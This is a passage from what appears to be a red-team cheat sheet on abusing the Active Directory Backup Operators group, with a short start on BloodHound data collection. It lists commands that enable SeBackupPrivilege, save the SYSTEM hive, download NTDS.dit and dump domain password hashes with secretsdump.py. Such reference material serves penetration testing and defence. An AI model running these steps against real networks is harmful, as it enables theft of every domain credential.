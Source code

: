 ## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files

```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### Get hashes from .dit file
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

### Scripts needed
- [https://github.com/k4sth4/SeBackupPrivilege](https://github.com/k4sth4/SeBackupPrivilege)

#### References
- [https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#Backup-Operators](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#Backup-Operators)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators-1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators-1)
- [https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)
- [https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)


# Active Directory
## BloodHound and SharpHound
This is used to visualise AD environments and discover attack paths.

### Ingestors
#### SharpHound
Data collector for BloodHound
[https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound)
